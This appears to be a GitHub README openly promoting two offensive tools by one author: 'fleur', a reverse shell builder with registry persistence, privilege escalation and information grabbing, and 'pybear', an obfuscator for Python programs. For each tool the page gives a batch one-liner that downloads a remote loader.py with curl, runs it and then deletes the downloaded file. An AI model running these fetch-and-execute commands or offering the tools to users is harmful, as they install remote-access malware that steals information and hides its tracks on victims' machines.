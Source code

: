 # fleur ⚜️
A simple reverse shell builder, with registry persistence, privilege escalation, information grabbing, and more.

```batch
curl -o fleur.py https://raw.githubusercontent.com/repossess/fleur/main/loader.py && start cmd.exe /k python fleur.py && timeout /t 1 >nul 2>&1 && del fleur.py && exit
```
![cmd](https://github.com/repossess/fleur/blob/main/dependencies/cmd.png?raw=true)

#

# pybear 🐻
A discrete, custom python bytecode virtual machine. Finally let's you obfuscate and password lock programs with ease.

```batch
curl -o pyb.py https://raw.githubusercontent.com/repossess/pybear/main/loader.py && start cmd.exe /k python pyb.py && timeout /t 1 >nul 2>&1 && del pyb.py && exit
```

![explorer](https://github.com/repossess/pybear/blob/main/images/explorer.png?raw=true)
